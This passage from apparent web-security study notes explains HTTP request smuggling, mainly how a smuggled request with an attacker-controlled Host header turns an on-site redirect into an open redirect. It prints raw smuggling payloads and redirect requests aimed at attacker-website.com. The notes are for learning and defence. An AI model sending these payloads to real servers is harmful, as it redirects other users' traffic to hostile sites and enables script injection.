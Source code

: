     x=

Now if the victim send any request to the server, the server will process the GET response that contains the XSS.

### NOLAB: Using HTTP request smuggling to turn an on-site redirect into an open redirect
Many applications perform on-site redirects from one URL to another and place the hostname from the request's Host header into the redirect URL. An example of this is the default behavior of Apache and IIS web servers, where a request for a folder without a trailing slash receives a redirect to the same folder including the trailing slash:

    GET /home HTTP/1.1
    Host: normal-website.com

    HTTP/1.1 301 Moved Permanently
    Location: https://normal-website.com/home/

This behavior is normally considered harmless, but it can be exploited in a request smuggling attack to redirect other users to an external domain. For example:

    POST / HTTP/1.1
    Host: vulnerable-website.com
    Content-Length: 54
    Transfer-Encoding: chunked

    0

    GET /home HTTP/1.1
    Host: attacker-website.com
    Foo: X

The smuggled request will trigger a redirect to the attacker's website, which will affect the next user's request that is processed by the back-end server. For example:

    GET /home HTTP/1.1
    Host: attacker-website.com
    Foo: XGET /scripts/include.js HTTP/1.1
    Host: vulnerable-website.com

    HTTP/1.1 301 Moved Permanently
    Location: https://attacker-website.com/home/

In some cases, you may encounter server-level redirects that use the path to construct a root-relative URL for the Location header, for example:

    GET /example HTTP/1.1
    Host: normal-website.com

    HTTP/1.1 301 Moved Permanently
    Location: /example/

This can potentially still be used for an open redirect if the server lets you use a protocol-relative URL in the path:

    GET //attacker-website.com/example HTTP/1.1
    Host: vulnerable-website.com
